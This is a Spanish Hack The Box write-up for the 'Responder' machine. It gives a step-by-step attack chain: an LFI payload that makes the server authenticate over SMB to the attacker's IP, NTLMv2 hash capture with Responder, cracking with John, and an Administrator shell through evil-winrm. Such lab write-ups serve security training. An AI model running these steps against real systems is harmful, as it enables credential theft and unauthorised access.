# Hack The Box - Responder Writeup


**Author:** Isaac Muñoz
**Date:** 2025-10-10
**Machine IP:** 10.10.16.81

---

## Introducción

Máquina Windows con una aplicación web PHP sobre XAMPP. La vulnerabilidad principal es un **LFI (Local File Inclusion)** a través del parámetro `page` en `index.php`, que permite capturar el hash NTLM del Administrador mediante **Responder** y luego acceder remotamente con **Evil-WinRM**.

Un hash **NTLM** es una representación criptográfica (formato hash) de una contraseña de usuario en sistemas Windows

---

## Reconocimiento / Escaneo con Nmap

```bash
nmap -sV -p- --min-rate 5000 10.10.16.81 -oN escaneo
```



Se identificaron dos puertos en escucha:

- **80/tcp** — Apache 2.4.52 (aplicación web PHP/XAMPP)
- **5985/tcp** — WinRM (Acceso Remoto Windows)

### Aplicación Web

- **Host:** `unika.htb`
- **URL:** `http://unika.htb/index.php`
- **Punto de entrada:** parámetro GET `page` → `index.php?page=...`







---

## Vulnerabilidades Identificadas

### LFI - Local File Inclusion

El parámetro `page` llega directamente a `include()` sin sanitización. El servidor devuelve **warnings de PHP** con rutas absolutas (`C:\xampp\htdocs\index.php`), revelando la estructura interna del sistema.

> **LFI (Local File Inclusion):** permite incluir archivos locales del servidor a través de la aplicación web. Sin configuración correcta, cualquier usuario puede acceder a archivos sensibles del sistema.



---

## Explotación

### Paso 1 - Captura del hash NTLM con Responder

Se forzó al servidor a hacer una petición SMB hacia nuestra máquina atacante:

```
http://unika.htb/index.php?page=//10.10.14.6/HTB
```

En paralelo, se levantó **Responder** en la interfaz `tun0`:

```bash
responder -I tun0
```



Responder capturó las credenciales del usuario **Administrator**:

- Dirección IP del servidor
- Usuario
- **Hash NTLMv2** del Administrator



### Paso 2 - Crackeo del hash con John The Ripper

Se copió el hash a un archivo local llamado `hash` y se crackeó con:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash
```

> **John The Ripper** es una herramienta de fuerza bruta para descifrar hashes usando diccionarios (wordlists).





Password del Administrator obtenida exitosamente.

### Paso 3 - Acceso remoto con Evil-WinRM

Con las credenciales obtenidas se accedió al puerto **5985** (WinRM):

```bash
evil-winrm -i 10.10.16.81 -u Administrator -p [password]
```

> **Evil-WinRM** es una herramienta de ejecución remota de comandos para servicios Windows que tienen WinRM habilitado (puerto 5985+).



---

## Flag

Una vez dentro del sistema, se navegó entre los archivos hasta encontrar la flag generada por HTB.




